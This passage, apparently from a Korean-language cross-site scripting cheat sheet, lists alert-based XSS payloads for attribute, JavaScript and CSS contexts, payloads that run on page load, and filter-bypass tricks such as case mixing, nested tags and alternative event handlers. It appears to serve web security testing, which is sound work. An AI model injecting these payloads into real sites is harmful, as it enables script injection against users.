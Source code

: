 #### 2.2.2. 태그 속성값 삽입
**상황:** `<input type="text" value="여기에 입력값">`
```html
" onmouseover="alert('XSS')" "
' onfocus='alert("XSS")' '
```

#### 2.2.3. JavaScript 컨텍스트 삽입
**상황:** `var data = "여기에 입력값";`
```javascript
";alert('XSS');//
';alert('XSS');//
</script><script>alert('XSS')</script><script>
```

#### 2.2.4. CSS 컨텍스트 삽입
**상황:** `<style>body{color:여기에입력값}</style>`
```css
red;}</style><script>alert('XSS')</script><style>
red;background:url('javascript:alert("XSS")')
```

### 2.3. 즉시 실행 페이로드 (사용자 액션 불필요)
```html
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<iframe src=javascript:alert('XSS')></iframe>
<meta http-equiv="refresh" content="0;javascript:alert('XSS')">
<link rel=stylesheet href=javascript:alert('XSS')>
```

---

## 3. 특수 페이로드

### 3.1. 필터링 우회 기법

#### 3.1.1. script 태그 차단 우회

**대소문자 혼용:**
```html
<ScRiPt>alert('XSS')</ScRiPt>
<SCRIPT>alert('XSS')</SCRIPT>
```

**키워드 삽입 (단순 삭제 필터링 우회):**
```html
<scr<script>ipt>alert('XSS')</scr</script>ipt>
<scr<!-- -->ipt>alert('XSS')</scr<!-- -->ipt>
```

**대체 태그 사용:**
```html
<details ontoggle=alert('XSS') open>
<marquee onstart=alert('XSS')>
<video onloadstart=alert('XSS') src=x>
<audio oncanplay=alert('XSS') src=x>
```
